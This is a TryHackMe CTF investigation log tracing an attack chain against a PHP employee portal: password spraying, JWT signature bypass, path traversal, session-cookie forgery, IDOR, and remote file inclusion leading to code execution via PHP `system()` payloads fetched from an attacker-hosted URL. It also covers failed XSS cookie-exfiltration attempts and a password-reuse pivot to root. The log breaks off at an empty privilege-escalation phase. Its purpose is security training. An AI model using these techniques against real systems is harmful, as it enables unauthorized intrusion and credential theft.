# Security Investigation: Domino

## Table of Contents

- [1. Investigation Overview](#1-investigation-overview)
- [2. Current Investigation Status](#2-current-investigation-status)
- [3. Scope and Environment](#3-scope-and-environment)
- [4. Investigation Log](#4-investigation-log)
  - [Phase 1: Reconnaissance](#phase-1-reconnaissance)
  - [Phase 2: Reconnaissance and Triage — Username Enumeration and Password Reuse](#phase-2-reconnaissance-and-triage--username-enumeration-and-password-reuse)
  - [Phase 3: Mapping the Authenticated Attack Surface](#phase-3-mapping-the-authenticated-attack-surface)
  - [Phase 4: Investigation — Breaking the JWT](#phase-4-investigation--breaking-the-jwt)
  - [Phase 5: Investigation — From File Read to Full Source Disclosure](#phase-5-investigation--from-file-read-to-full-source-disclosure)
  - [Phase 6: Investigation — Hardcoded Secrets and the Pivot to Admin Impersonation](#phase-6-investigation--hardcoded-secrets-and-the-pivot-to-admin-impersonation)
  - [Phase 7: A Finding Independent of the Above — IDOR](#phase-7-a-finding-independent-of-the-above--idor)
  - [Phase 8: Exploitation — From File Read to Remote Code Execution](#phase-8-exploitation--from-file-read-to-remote-code-execution)
  - [Phase 9: Rabbit Hole — Misdiagnosing the Ticket-Review Mechanism](#phase-9-rabbit-hole--misdiagnosing-the-ticket-review-mechanism)
  - [Phase 10: Lateral Movement — From Web Shell to a Real OS Account](#phase-10-lateral-movement--from-web-shell-to-a-real-os-account)
  - [Phase 11: Privilege Escalation — From a Fully Mapped Path to Root](#phase-11-privilege-escalation--from-a-fully-mapped-path-to-root)
- [5. Vulnerability Candidates](#5-vulnerability-candidates)
- [6. Confirmed Vulnerabilities](#6-confirmed-vulnerabilities)
- [7. Rabbit Holes and Disproven Hypotheses](#7-rabbit-holes-and-disproven-hypotheses)
- [8. Evidence and Artifacts](#8-evidence-and-artifacts)
- [9. Technical Knowledge and Lessons Learned](#9-technical-knowledge-and-lessons-learned)
- [10. Final Investigation Summary](#10-final-investigation-summary)
- [11. Writeup Handoff](#11-writeup-handoff)

## 1. Investigation Overview

- Target / Challenge: Domino — NexusCorp Employee Portal (TryHackMe, Jr Penetration Tester path)
- Platform / Program: TryHackMe
- Investigation Type: CTF
- Scope: Target web app (PHP/Apache, ports 80/22) as provisioned by the TryHackMe room; attacker IP changed across VPN reconnects during the engagement (see evidence for the specific IPs used)
- Restrictions: Authorized TryHackMe lab target only; no destructive testing; no out-of-scope infrastructure
- Start Date: 2026-10-29 (per raw session notes; engagement spanned at least two sessions)
- Status: Completed — full chain from zero credentials to `root`
- Primary Objective: Obtain `user.txt` and `root.txt`

## 2. Current Investigation Status

### Summary

This room was worked across two recorded sessions, producing two sets of raw notes with different target/attacker IPs (VPN reconnects reassign the target IP in THM, and the attacker reconnected mid-engagement too). Both sessions reached full `root` compromise via the same underlying web-app chain and the same final privilege-escalation primitive. This investigation file synthesizes both into one record; the full verbatim transcripts are preserved as evidence (Section 8) rather than duplicated here.

### Confirmed Findings

See Section 6 (Confirmed Vulnerabilities) for the full chain: username enumeration → password reuse → JWT signature bypass → LFI/source disclosure → hardcoded secrets → session forgery (admin impersonation) → IDOR (independent finding) → RFI → RCE → credential reuse (OS pivot) → cron-triggered root compromise.

### Active Hypotheses

None remaining open at completion; see Section 7 for the one privilege-escalation avenue (`admin_bot.py` / `admin-bot.service`) that was investigated but never completed, superseded by the path that worked.

### Open Questions

- Whether the `devops` OS credential (reused from `DB_PASS`) also works over actual SSH — never tested; access was via web-shell → `su`.
- `files.php`'s own PHP source was never pulled, so the exact RFI mechanism (`include()` + `allow_url_include`, vs. download-then-execute) was inferred from behavior, not confirmed from source.
- The `reset_tokens` logic flaw noted in a `forgot.php` comment ("token NOT bound to requesting user") was never chased to a working exploit.
- Whether the `admin_bot.py` SSRF primitive can reach other `localhost`-only services beyond what was already enumerated via direct shell access.

### Next Steps

None — room completed. Open questions above are candidates for a follow-up pass if the room is revisited.

## 3. Scope and Environment

### Authorized Targets

TryHackMe-provisioned target for the Domino room (PHP/Apache web app on port 80, SSH on 22). Specific IPs varied by session/VPN reconnect; see raw session notes for the exact addresses used at each point.

### Restrictions

Authorized TryHackMe lab target only, accessed via THM VPN/AttackBox. No destructive testing.

### Environment

Two sessions, each with its own attacker IP (VPN-assigned). The "Our Team" page and the application's own source review were the primary sources of information; no external OSINT was applicable to an internal lab target.

### Initial Information

The "Our Team" public page discloses 7 full names, roles, departments, and emails, revealing the `firstname.lastname@nexus.corp` username convention and converting a blind credential-guessing problem into a targeted one against 7 known accounts.

## 4. Investigation Log

### Phase 1: Reconnaissance

#### Objective

Map the exposed attack surface.

#### Observations

`nmap -sV -sC` showed only two ports: 22 (SSH) and 80 (Apache/PHP). SSH never yielded usable credentials during this engagement; the web app (`index.php` entrypoint) was the sole attack surface. The public "Our Team" page lists all 7 employees with full names, roles, and departments, confirming the `firstname.lastname` username pattern.

#### Actions and Experiments

`nmap -sV -sC` against the target; manual browse of the login page and the "Our Team" page.

#### Results

7 valid usernames identified without any guessing.

#### Analysis

A single page converts the engagement from "guess a username and password" to "7 known usernames, find the weak one(s)."

#### Findings

Username enumeration surface via the public team page.

#### Evidence





#### Next Steps

Look for a server-side oracle that confirms which usernames are real accounts, then attempt credential attacks.

### Phase 2: Reconnaissance and Triage — Username Enumeration and Password Reuse

#### Objective

Turn the 7 known names into a low-privilege authenticated foothold.

#### Observations

The login form itself returns a generic "Invalid credentials" message regardless of username validity. The password-reset flow at `/forgot.php`, however, returns a different message for a known vs. unknown username ("No account found..." vs. "Password reset instructions have been sent to ...") — a classic enumeration oracle, with no CSRF token and no observed rate limiting.

#### Hypotheses

A weak, shared password might be reused across some of the 7 accounts, given the enumeration oracle removes the cost of guessing usernames.

#### Actions and Experiments

Password-spray via Hydra against the confirmed username list using a top-1000 common-password wordlist.

#### Results

3 of 7 accounts (`sarah.johnson`, `robert.wilson`, `emma.taylor`) shared the literal password `password`. The CISO, Lead Security Engineer, Full-Stack Developer, and SysAdmin accounts did not fall to this list.

#### Analysis

Only the less security-focused roles reused a trivially weak password — a pattern worth noting for the eventual remediation writeup (credential hygiene correlates with role awareness here, not a technical control).

#### Findings

Confirmed: username enumeration via `/forgot.php` (CWE-203); confirmed: password reuse / weak shared credential across 3 accounts (CWE-521).

#### Evidence

Raw session notes (`raw-session-notes-vuln-report.md`, Finding 4.1–4.2).

#### Next Steps

Log in as one of the compromised accounts and map the authenticated attack surface.

### Phase 3: Mapping the Authenticated Attack Surface

#### Objective

Understand what a low-privilege (`role: user`) session can reach.

#### Observations

Logged in as `emma.taylor`. The dashboard exposes: My Profile, a File Viewer at `/api/files.php?name=` ("Access internal documents via the secure file API"), JWT auth at `/api/auth/token.php`, and links to Support Tickets / Open Ticket / the Profile API.

#### Findings

Three distinct features worth testing independently: the JWT-gated File Viewer, the ticket system, and the Profile API.

#### Evidence







#### Next Steps

Investigate the JWT mechanism gating the File Viewer.

### Phase 4: Investigation — Breaking the JWT

#### Objective

Determine whether the File Viewer's JWT-based role gate can be bypassed.

#### Observations

`/api/auth/token.php` issues a JWT whose header and payload are base64url-encoded (not encrypted); decoding locally showed a `role` claim directly in the payload. Requesting `/api/files.php` with a legitimate non-admin JWT returned `403 Admin JWT required`, confirming the endpoint gates specifically on the `role` claim.

#### Hypotheses

If the server doesn't actually verify the HMAC signature on the way back in, the `role` claim can be edited client-side without needing the signing secret.

#### Actions and Experiments

Changed the payload's `role` to `admin`, re-encoded it, and reattached it to the original (now-mismatched) signature, unchanged.

#### Results

Accepted. A different error surfaced (`Access denied: path must be within /var/www/html/`), confirming not only that the signature isn't checked, but that the `name=` parameter now reaches a filesystem-path-building code path once the admin gate is passed.

#### Analysis

Source disclosure later (Phase 5) confirmed the root cause directly: `verify_jwt()`'s entire signature-comparison block is commented out; only token expiry is checked. A secondary bug in `generate_jwt()` always issues `role: 'user'` regardless of the account's real DB role, meaning even a legitimate admin login wouldn't normally receive an admin-role JWT — making client-side forgery the only practical way to obtain one at all.

#### Findings

Confirmed: JWT signature verification disabled (CWE-347) — any authenticated user of any role can mint themselves an "admin" JWT.

#### Evidence

Raw session notes (Finding 4.3).

#### Next Steps

Use the forged admin JWT to explore what `/api/files.php` actually does with the `name` parameter.

### Phase 5: Investigation — From File Read to Full Source Disclosure

#### Objective

Determine the scope of the file-read primitive unlocked by the forged JWT.

#### Observations

With the forged admin-role JWT, `?name=robert` returned `"Access denied: path must be within /var/www/html/"`, confirming path concatenation. Direct traversal toward `/etc/passwd` was correctly blocked by what behaves like `realpath()`-based normalization — not trivially bypassable for escaping the web root. Requesting an in-bounds file (`?name=index.php`) succeeded and revealed the actual working directory is one level deeper (`/var/www/html/api/`) than the error message implies.

#### Hypotheses

A single relative `../` would reach sibling files one level up while still passing the "within /var/www/html/" check, since that directory is itself inside the permitted root.

#### Actions and Experiments

Requested `?name=../forgot.php`, then `?name=../auth.php`, then `?name=../config.php`.

#### Results

All three succeeded, disclosing full PHP source for `forgot.php`, `auth.php`, and `config.php`.

#### Analysis

This is a textbook containment check built for local traversal that doesn't account for the API's own directory depth relative to the assumed root. `auth.php`'s source directly confirmed the disabled signature check from Phase 4, and `auth.php` itself `require_once`s `config.php` — the next, more consequential target.

#### Findings

Confirmed: Local File Inclusion / path traversal (partially mitigated) (CWE-22) — full source disclosure for files one directory above the API root.

#### Evidence

- `investigations/domino/evidence/sources/forgot.php`
- `investigations/domino/evidence/sources/auth.php`
- `investigations/domino/evidence/sources/config.php`

#### Remaining Questions

A dev comment in `forgot.php` flags a separate logic flaw ("token NOT bound to requesting user") — not chased further.

#### Next Steps

Read `config.php` for secrets.

### Phase 6: Investigation — Hardcoded Secrets and the Pivot to Admin Impersonation

#### Objective

Assess the impact of the secrets found in `config.php`.

#### Observations

`config.php` hardcodes `DB_PASS`, `JWT_SECRET`, and `APP_SECRET`. `DB_PASS`/`JWT_SECRET` relate to the already-broken JWT path. `APP_SECRET`, however, signs a separate, independently well-implemented mechanism found by reading `auth.php`: the `nexus_session` cookie (HMAC-verified with `hash_equals()`, role always re-fetched from the DB rather than trusted from the cookie).

#### Hypotheses

A valid `nexus_session` cookie can be forged for any `user_id` using the leaked `APP_SECRET`, since the scheme is otherwise sound but depends entirely on that one secret staying secret.

#### Actions and Experiments

Forged a `nexus_session` cookie for `user_id=1` (the CISO) using a small script replicating the app's HMAC-SHA256 hex-digest scheme, and sent it to `/dashboard.php`.

#### Results

`200 OK`, rendered dashboard as the CISO, `Role: admin`, with an `Admin` nav link not shown to regular users. Following it confirmed full administrative access on the live application.

#### Analysis

This cookie scheme is sound in isolation; it is exploitable only as a downstream consequence of the secret leaking through the Phase 5 file-read primitive. Note for reproduction: `generate_jwt()` and `get_session()` encode their HMACs differently (raw-bytes-then-base64 vs. hex digest) — a forgery script has to match the hex-digest form for the cookie specifically.

#### Findings

Confirmed: hardcoded secrets in source (CWE-798); confirmed: session cookie forgery → full administrative impersonation (CWE-290).

#### Evidence

- `evidence/sources/config.php`





#### Next Steps

Explore what else the newly-forged admin session reaches.

### Phase 7: A Finding Independent of the Above — IDOR

#### Objective

Check for object-level authorization gaps, independent of the admin-impersonation chain.

#### Observations

While authenticated as `robert.wilson` via a completely ordinary password login (role: `user`, no forged cookie or JWT involved), requesting `/api/users/profile.php?id=1` returned the CISO's full profile record, including a `notes` field not shown to her in her own UI.

#### Results

Confirmed: no ownership or role check on this endpoint at all. **Flag captured** (redacted; see evidence image, which shows the flag in-frame): `THM{[REDACTED]}`.

#### Analysis

This is reachable by the lowest-privilege account compromised in Phase 2 alone — none of the JWT/LFI/secrets/cookie-forgery chain (Phases 4–6) is a prerequisite. Worth keeping as a separate finding in the writeup rather than folding it into the admin-impersonation narrative, since conflating the two would overstate the admin chain's necessity.

#### Findings

Confirmed: IDOR / horizontal privilege escalation (CWE-639) on `/api/users/profile.php?id=`.

#### Evidence



*(Note: this screenshot shows the flag text in-frame, unredacted; it predates this redaction workflow.)*

#### Next Steps

Return to the admin-session chain and look for a path to code execution.

### Phase 8: Exploitation — From File Read to Remote Code Execution

#### Objective

Determine whether the `/api/files.php?name=` primitive extends beyond local file reads.

#### Observations

The Phase 5 containment check assumes a local filesystem path; it has no defined behavior for a fully-qualified remote URL, which `realpath()`-style normalization cannot resolve at all.

#### Hypotheses

The endpoint might fetch (and possibly execute) a remote URL passed via `name=`, turning a file-read feature into SSRF or RCE.

#### Actions and Experiments

1. Probed with an innocuous static file hosted on an attacker-controlled listener (`name=http://<attacker>:8000/index.html`) to confirm the request even reaches a remote host.
2. Followed with a differentiating PHP payload (`<?php echo "RCE-TEST-" . (1337*2); ?>`) to distinguish "fetched and displayed" from "fetched and executed."
3. Escalated to `<?php system('id'); ?>` to confirm actual OS command execution (not just PHP evaluation, since some hardened builds disable `system()`/`exec()` individually).

#### Results

1. The listener logged a hit — the containment check does not block remote URLs.
2. The arithmetic evaluated server-side (`RCE-TEST-2674`), and the response's JSON key changed to `"output"` (distinct from the `"file"`/`"content"` shape used for local reads) — confirmed code execution via a dedicated remote-URL code path, not a file read.
3. Returned `uid=33(www-data) gid=33(www-data) groups=33(www-data)` — confirmed OS command execution as `www-data`.

#### Analysis

A path-containment check designed for local traversal does not generalize to URLs — this is a distinct root cause from the LFI in Phase 5, reachable through the same parameter and the same admin-JWT gate. Escalated to an interactive reverse shell (a standard PHP reverse shell payload, delivered via the same RFI primitive), later re-established through Penelope for stability.

#### Findings

Confirmed: Remote File Inclusion (RFI) → Remote Code Execution (CWE-98). **Flag captured** on first shell access from `/opt/flag3.txt` (redacted): `THM{[REDACTED]}`.

#### Evidence

Raw session notes (Finding 4.8).





#### Remaining Questions

`files.php`'s own PHP source was never pulled — would have definitively confirmed whether the remote-URL branch uses `include()`+`allow_url_include` or a separate download-then-execute mechanism.

#### Next Steps

Enumerate from the `www-data` shell for a path to a real OS account.

### Phase 9: Rabbit Hole — Misdiagnosing the Ticket-Review Mechanism

#### Objective

Determine the mechanism behind a suspected "admin reviews tickets" feature noted in the dashboard.

#### Observations

`support/create.php`'s source (pulled via the Phase 5 LFI) contains a comment indicating ticket messages are stored raw, with no XSS filtering.

#### Hypotheses

Initial hypothesis: a headless-browser-driven blind XSS against an admin's live session.

#### Actions and Experiments

Submitted a `<script>` payload exfiltrating `document.cookie` via an image-beacon request; later a `fetch()`-based payload attempting to read an authenticated page's content and exfiltrate it the same way.

#### Results

Both triggered a request on the attacker listener after a delay, but `document.cookie` was always empty, and the `fetch()` payload's exfiltrated content was also always empty, regardless of target path — including an always-populated, unauthenticated page.

#### Analysis

This was disproven once OS-level access (Phase 10) revealed the actual mechanism: `/opt/admin_bot.py` is a plain Python daemon with no browser and no JavaScript execution at all. It regexes ticket `message` text for anything matching an `http(s)://` URL pattern and performs a blind, response-discarding `requests.get()` on it, using a hardcoded admin session cookie built the same way as the Phase 6 forgery. This fully explains the earlier results in hindsight: relative-path `fetch()` payloads never matched the URL regex (so `requests.get()` was never invoked for them), and the "hits" that did land were just the literal beacon URL in the raw ticket text being regex-extracted and GET'd verbatim, not real exfiltrated content.

#### Failed Attempts / Dead Ends

Both XSS-style payloads (cookie exfiltration, authenticated-fetch exfiltration) failed to demonstrate any actual script execution, because none was ever happening — the vulnerability is server-side SSRF via regex extraction, not client-side XSS.

#### Findings

Confirmed: SSRF via ticket-review automation (`admin_bot.py`) (CWE-918) — the process runs as `root` and issues authenticated-as-admin outbound requests, a blind SSRF primitive relevant to otherwise-unreachable `localhost`-only services (e.g. the DB).

#### Evidence

Raw session notes (Finding 4.9); `evidence/sources/admin-bot.py`.



#### Next Steps

Continue OS-level enumeration from the `www-data` shell.

### Phase 10: Lateral Movement — From Web Shell to a Real OS Account

#### Objective

Pivot from the `www-data` web shell to a real, interactive OS account.

#### Observations

Running `pspy64` (a non-root process monitor) surfaced a genuine local account, `devops` (UID 1001, `/bin/bash`), distinct from the web app's `firstname.lastname` convention, matching a `/home/devops` directory already visible but inaccessible as `www-data`.

#### Hypotheses

Given the engagement's established pattern of weak/reused credentials (Phase 2) and a database password literally named after the role it belongs to, that same `DB_PASS` value might also be the `devops` OS account's password.

#### Actions and Experiments

`su devops` using the `DB_PASS` value from `config.php`.

#### Results

Succeeded. **Flag captured** from `~/user.txt` (redacted): `THM{[REDACTED]}`.

#### Analysis

Confirms the engagement's password-reuse theme extends across the web app / database / operating-system trust boundaries, not just within the web app itself (Phase 2's finding was reuse between web accounts; this is reuse between a DB credential and a real OS account).

#### Findings

Confirmed: credential reuse — database password reused as OS account password (CWE-521).

#### Remaining Questions

Access was via `su` from the existing web-shell foothold, not a direct SSH login; whether this credential also works over actual SSH (port 22, open since initial recon) was never tested.

#### Next Steps

Enumerate for privilege escalation to `root`.

### Phase 11: Privilege Escalation — From a Fully Mapped Path to Root

#### Objective

Escalate from `devops` to `root`.

#### Observations

